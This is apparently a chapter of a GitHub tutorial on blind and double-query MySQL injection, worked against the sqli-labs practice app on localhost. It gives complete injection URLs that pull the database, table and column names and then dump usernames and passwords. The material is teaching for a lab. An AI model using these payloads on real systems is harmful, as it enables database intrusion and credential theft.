 # Chapter-04

This section will include the basics for blind sql injection. It will cover a few topics that will lay the foundation for blind sqli injection. 

## Work around for cases where comments can't be used

In some cases we may not not be able to use comments in the url to perform sql injection. In such cases we may have to resort to using ```AND``` / ```OR``` operator with appropriate closing element.

Here is an example from lesson-1 of sqli-labs - 

The url will look like this - 

```
http://localhost/sqlilabs/Less-1/?id=1' or '1
```

or 

```
http://localhost/sqlilabs/Less-1/?id=1' and '1
```

Let us now also have a look at the SQL query which gets executed at the backend. 

The given SQL query at the back-end looks like this - 

```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

```$id``` gets replaced by the id that the user specifies at the url. 

We inject either ```1' or'1``` or ```1' and '1``` into the url. The sql query after adding ```1'``` and balancing it with ```'1``` looks somewhat like this -  

```
SELECT * FROM users WHERE id='1' or '1' LIMIT 0,1
```

or 

```
SELECT * FROM users WHERE id='1' and '1' LIMIT 0,1
```

:warning: Adding ```'1``` with ```AND``` or ```OR``` balances the SQL Query at the backend. 

## A few roadbumps 

Using ```AND``` or ```OR``` in the sql query has its own drawbacks. Some of them are mentioned below - 

1.  ```ORDER BY``` clause doesn't work well with ```AND``` and ```OR```. Using order-by in such a case will result in no error being thrown irrespective of the number specified in the order by clause.

    Workaround for such a case would be brute force with ```select 1, 2, 3 ...n``` and find the number of columns used in the query. 

1.  ```SELECT * FROM``` also does not work. The ```FROM``` clause when used with ```AND``` or ```OR``` results in an error being thrown. The work around for this error would be to use ```Double SQL injection``` or ```Blind SQL injection``` which is explained in detail below. 

:warning: Double query injection can only be used in cases where the webpage displays some form of an error when the query is broken. If the webpage shows no error message, ```Double Query Injection``` cannot be performed and we may have to resort to ```Blind SQL Injection```.

:boom: Manually performing ```Blind SQL injection``` will take lots of time, hence it has to be automated by making using of an automated script.

## Double Query SQL Injection

The double query SQL injection is a technique that uses a bug in ```MySql``` to extract information. The bug causes the mysql query to throw an error which contains the information that we require. 

The bug is caused when we use ```rand()```, ```count()``` and ```group by``` clause together. 

[This](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c) blog explains in great detail how to reproduce the bug so that we can exploit it and get the useful information. 

This bug can be reproduced by executing this statement - 

```
select count(*), concat((select database()), floor(rand() * 2)) as hack from information_schema.tables group by hack;
```

:warning: The above statement may have to be executed multiple times to see the error. 

The error message will look somewhat like this - 

```Error Code: 1062. Duplicate entry 'security1' for key '<group_key>'```

If you notice carefully, the error message contains the name of the database, i.e. (security). 

Now, the above query can be further manipulated to get more interesting information.

In order to use this in a URL we will have to make slight modifications to the query which are explained below - 

1.  Since this query will be used with an ```AND``` operator, we will have to wrap our payload within another ```MySql``` statement. Wrapping the query inside another query requires us to use the alias in the wrapper query.

The resultant URL will look somewhat like this in the end - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select database()), '+', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)--+
```

The above ```URL``` can be further modified to obtain the table column names. 

The table names can be obtained by changing the ```limit 0,1``` term. We get different values by choosing different terms such as ```limit 1,1```, ```limit 2,1``` or ```limit 3,1```. 

The ```URL``` will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

The column names can be obtained by following a similar strategy. The ```URL``` for it will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select column_name from information_schema.columns where table_name='users' limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

Again, changing the ```limit 0,1``` term yields different results. 

Finally, once we know the column names and the table names, we can dump both the username and password.

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select password from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select username from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

We can also do something like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and 0 union select 1, group_concat(username), group_concat(password) from users;
```

That will be all for Double Query SQL Injection. :star:

## :star2: Resources 

1.  https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c
